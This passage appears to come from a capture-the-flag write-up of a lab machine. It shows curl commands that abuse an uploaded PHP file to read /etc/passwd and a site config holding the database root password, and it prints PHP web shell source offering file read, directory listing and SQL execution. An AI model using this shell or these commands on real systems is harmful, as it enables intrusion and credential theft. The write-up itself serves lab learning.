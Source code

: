 ```

root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[snip]...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
red:x:1001:1001::/home/red:/bin/false

```

#### Database

It’s really interesting to note that in the `/etc/passwd` file, the user mysql has a shell, `/bin/bash`. That’s unusual, as `mysql` typically sets the mysql user’s shell to `/bin/false`. Given the hacked theme of the box, it’s worth looking at this further.

Looking at mysql’s home directory doesn’t return anything, which indicates a permissions issue. I can try to check out the database, especially to see if it can execute. I’ll pull the config file at the same path I noted in the backup. The DB password is still “changethis”:

```

root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www/html/shop/includes/config.inc.php"
<?php
...[snip]...
// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');  
...[snip]...

```

I’ll add some code to my PHP that will run DB queries:

```

sploit = """<?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

if (isset($_REQUEST['db'])) {
    $conn = new mysqli("localhost", "root", "changethis", "ecom") or die("Connect failed: %s\n". $conn -> error);
    $res = mysqli_query($conn, $_REQUEST['db']);
    while ($row = $res->fetch_row()) {
        foreach ($row as $r) {
            echo $r . " ";
        }
        echo "\n";
    }
}

```
